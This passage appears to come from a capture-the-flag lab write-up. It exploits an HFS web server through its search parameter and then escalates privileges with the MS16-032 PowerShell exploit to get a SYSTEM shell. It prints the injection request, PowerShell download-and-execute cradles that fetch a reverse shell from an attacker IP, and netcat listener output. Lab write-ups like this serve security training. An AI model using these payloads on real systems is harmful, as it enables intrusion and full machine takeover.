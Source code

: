 ```
GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1
```

The resulting shell is 64-bit:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True
```

### MS16-032

The exploit-db link above will not work for this kind of scenario, as it will pop a new window on the box, rather than giving me the ability to run a command. Luckily, the folks in the Empire project ported a [version of this script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) to add a command option.

I’ll download a copy of that, and add a line at the end to call it with a command to download and execute my reverse shell:

```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

From the 64-bit shell, (and with both a Python web server serving `rev.ps1` and `nc` listening on 443 to get the shell), I’ll use the same PowerShell cradle to download and execute the exploit:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

There’s a request right away for `Invoke-MS16032.ps1`. Once that last message pops, there’s another request for `rev.ps1`, and then a shell at `nc`:

```
oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

And I can grab `root.txt`:

```
PS C:\users\administrator\desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
